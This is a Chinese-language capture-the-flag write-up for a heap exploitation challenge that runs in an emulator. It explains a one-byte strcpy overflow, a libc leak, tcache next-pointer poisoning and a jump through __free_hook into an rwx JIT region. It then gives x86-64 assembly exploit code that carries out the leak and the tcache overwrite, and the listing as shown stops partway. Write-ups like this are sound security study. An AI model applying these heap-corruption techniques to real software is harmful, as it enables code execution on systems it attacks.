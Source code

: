 文件名strcpy的时候单字节溢出，可以把后面buf地址的低位置零，而buf的大小在open系统调用中可以控制，这样连续分配多个小buf，再分配一个大buf，用单字节溢出把大buf的低位置零，它就包含了之前小buf的头部在里面；进一步用read系统调用可以泄漏libc地址（释放块的fd/bk往往指向main_arena附近），write系统调用可以覆盖头部信息

因为这buf在open时malloc，在close时free，所以这道题相比unbelievable_write更加自由；通过修改tcache_entry的next指针，可以做到任意内存地址分配，比如分配到__free_hook后直接可以写入system，不过因为题目限制这并没有什么用

看了下unicorn-engine支持JIT，所以找一下内存映射发现有rwx的内存区域，而且这段内存区域和libc的偏移是固定的，重复上述步骤可以向其中写入任意代码，再用__free_hook跳转过去执行即可

注：下面pwn程序写得更复杂一些，实际上做到了任意长度任意代码执行，因为发现了有一段rw内存映射区域（大概率是仿真代码内存区域）包含了所有输入代码，所以试图直接把这段代码拷贝进入rwx内存区域；但是前者的内存映射位置不知道为什么不是固定的，所以这里使用了heap地址间接引用找到（我也不知道我引用的heap地址是什么，用find找到的，发现每次启动偏移固定就直接使用了）

pwn程序：
```
.section ".text", "ax"
.code64
_start:
	movq $2, %rax
	leaq str_a(%rip), %rdi
	movq $0x90, %rsi
	syscall # open(str_a, 0x90) = 3

	movq $2, %rax
	leaq str_b(%rip), %rdi
	movq $0x90, %rsi
	syscall # open(str_b, 0x90) = 4

	movq $2, %rax
	leaq str_c(%rip), %rdi
	movq $0x90, %rsi
	syscall # open(str_c, 0x90) = 5

	movq $2, %rax
	leaq str24_a(%rip), %rdi
	movq $0x100, %rsi
	syscall # open(str24_a, 0x100) = 6

	xorq %rax, %rax
	movq $6, %rdi
	leaq buf_1(%rip), %rsi
	movq $0x100, %rdx
	syscall # read(6, buf_1, 0x100)

	movq $3, %rax
	movq $4, %rdi
	syscall # close(4)

	movq $3, %rax
	movq $5, %rdi
	syscall # close(5)

	xorq %rax, %rax
	movq $6, %rdi
	leaq buf_2(%rip), %rsi
	movq $0x100, %rdx
	syscall # read(6, buf_2, 0x100)

	movq buf_1 + 0x40(%rip), %rax  # <main_arena+1632>
	addq $-0xc0b1e0, %rax          # rwx memory
	movq %rax, buf_2 + 0x40(%rip)  # tcache_entry::next

	movq $1, %rax
	movq $6, %rdi
	leaq buf_2(%rip), %rsi
	movq $0x100, %rdx
	syscall # write(6, buf_2, 0x100)
```